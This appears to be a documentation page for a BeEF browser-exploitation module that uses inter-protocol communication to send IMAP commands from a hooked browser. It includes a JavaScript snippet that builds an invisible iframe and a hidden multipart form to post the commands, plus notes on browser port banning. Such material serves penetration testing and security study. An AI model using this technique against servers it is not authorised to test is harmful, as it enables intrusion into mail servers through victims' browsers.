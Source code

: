 ## Summary

* **Objective**: send commands to an IMAP4 server using inter-protocol communication
* **Authors**: jgaliana, wade
* **Browsers**: Firefox, Chrome, Safari, Opera

* [Code](https://github.com/beefproject/beef/tree/master/modules/ipec/inter_protocol_imap)

## Internal Working

Note: browser port banning is denying connections to default IMAP port 143.

Uses an iframe with multipart form data to send commands to IMAP server


```js

var target = "http://" + server + ":" + port + "/abc.html";
var iframe = beef.dom.createInvisibleIframe();

var form = document.createElement('form');
form.setAttribute('name', 'data');
form.setAttribute('action', target);
form.setAttribute('method', 'post');
form.setAttribute('enctype', 'multipart/form-data');

var input = document.createElement('input');
input.setAttribute('id', 'data1')
input.setAttribute('name', 'data1')
input.setAttribute('type', 'hidden');
input.setAttribute('value', commands);
form.appendChild(input);

```

## References

https://e1tips.com/2014/03/17/allow-firefox-chrome-to-access-restricted-ports/

## Feedback

Online works when the port is not blocked by the browser.

